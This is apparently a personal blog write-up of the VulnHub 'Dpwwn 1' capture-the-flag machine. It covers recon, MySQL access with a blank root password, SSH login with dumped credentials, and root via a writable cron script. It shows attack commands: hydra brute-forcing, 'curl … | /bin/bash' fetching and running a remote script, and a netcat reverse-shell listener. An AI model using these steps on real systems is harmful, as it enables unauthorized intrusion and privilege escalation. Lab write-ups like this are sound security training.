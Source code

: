 ```yaml
---
title: "Dpwwn 1"
date: 2024-05-25
draft: false
summary: "Writeup for Dpwwn 1 CTF on VulnHub. A boot to root challenge requiring us to capture the flag from the root directory."
tags: ["linux", "cron", "service misconfiguration"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/dpwwn1/cover.webp"
  caption: "Dpwwn VulnHub Challenge"
  alt: "Dpwwn cover"
platform: "VulnHub"
---
```


**dpwwn1** is a boot to root challenge that requires us to obtain the contents of `dpwwn-01-FLAG.txt` under */root* Directory.
<!--more-->
To download **dpwwn 1**, click on the link given below:
- https://www.vulnhub.com/entry/dpwwn-1,342/

## Recon

I performed a network scan to discover the target IP.

```bash
nmap -sn 192.168.1.0/24                 
```

I then performed an **nmap** aggressive scan to find open ports and services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN dpwwn1.nmap
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 3306     | mysql       |

![](https://cdn.ziomsec.com/dpwwn1/1.webp)

## Initial Foothold

I visited the web application running on port 80 through my browser and landed on a testing page.

![](https://cdn.ziomsec.com/dpwwn1/2.webp)

I then ran a **ffuf** scan to find hidden files and found an interesting file.

```shell
ffuf -u http://TARGET/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-file.txt -mc 200,302
```

![](https://cdn.ziomsec.com/dpwwn1/3.webp)

I then visited the *info.php* endpoint and got the results of `phpinfo()` function.

![](https://cdn.ziomsec.com/dpwwn1/4.webp)

This page provided 2 potential usernames, "root" and "apache". I tried connecting to the **mysql** server using these usernames with a blank password and got access as "root".

```shell
hydra -l 'apache' -p '' mysql://TARGET
hydra -l 'root' -p '' mysql://TARGET
```

![](https://cdn.ziomsec.com/dpwwn1/5.webp)

```shell
mysql -u root -H target -p
# hit enter
```

![](https://cdn.ziomsec.com/dpwwn1/6.webp)

Here, I found a set of credentials in the *users* table.

```mysql
use ssh;
show tables;
select * from users
```

![](https://cdn.ziomsec.com/dpwwn1/7.webp)

![](https://cdn.ziomsec.com/dpwwn1/8.webp)

I used these credentials to connect via **ssh**.

![](https://cdn.ziomsec.com/dpwwn1/9.webp)

With this, I gained a foothold on the machine.

## Privilege Escalation

To enumerate privilege escalation vectors, I downloaded the **linux smart enumeration** script on my target system:
- https://github.com/diego-treitos/linux-smart-enumeration

> I had the script locally so I just transferred it by hosting a local http server.

```shell
python -m http.server 8080
```

![](https://cdn.ziomsec.com/dpwwn1/10.webp)

```shell
curl http://KALI:8080/lse.sh | /bin/bash
```

![](https://cdn.ziomsec.com/dpwwn1/11.webp)

![](https://cdn.ziomsec.com/dpwwn1/12.webp)

Through this, I discovered that the bash script present in my home directory was being executed as a **cronjob**. Cron jobs are scheduled tasks that are executed automatically after certain conditions are fulfilled.

![](https://cdn.ziomsec.com/dpwwn1/13.webp)

```shell
cat /etc/crontab
```

![](https://cdn.ziomsec.com/dpwwn1/14.webp)

The *crontab* confirmed that the bash script was being executed as *root*. To understand the execution schedule, I visited **[crontab guru](https://crontab.guru/)**.

![](https://cdn.ziomsec.com/dpwwn1/15.webp)

Since I had permissions to write into the file, I could execute any command as *root*. Hence, I visited **revshells** and selected a bash payload that would get me a reverse shell.
- https://www.revshells.com/

![](https://cdn.ziomsec.com/dpwwn1/16.webp)

I then added this payload to the bash script and started a reverse shell listener using **netcat**.

![](https://cdn.ziomsec.com/dpwwn1/17.webp)

```bash
rlwrap nc -lnvp 4444
```

After 3 minutes and I got a reverse connection on my **netcat** listener.

![](https://cdn.ziomsec.com/dpwwn1/18.webp)

I spawned a **tty** shell and captured the flag from the */root* directory.

```sell
python -c 'import pty;pty.spawn("/bin/bash")'
cat dpwwn-01-FLAG.txt
```

![](https://cdn.ziomsec.com/dpwwn1/19.webp)

## Closure

Here's a summary of how I pwned **dpwwn 1**:
1. I identified potential users from the **phpinfo** page using web fuzzing.
2. One of these users had credentials for the **mysql** server on the target, which allowed me to access the system via **ssh**.
3. A script in the *mystic* user's directory was executed by *crontab* as *root*, providing me with a reverse shell as *root*.
4. With *root* access, I retrieved the flag located in */root*.

That's all from my side! Happy Hacking :)

---
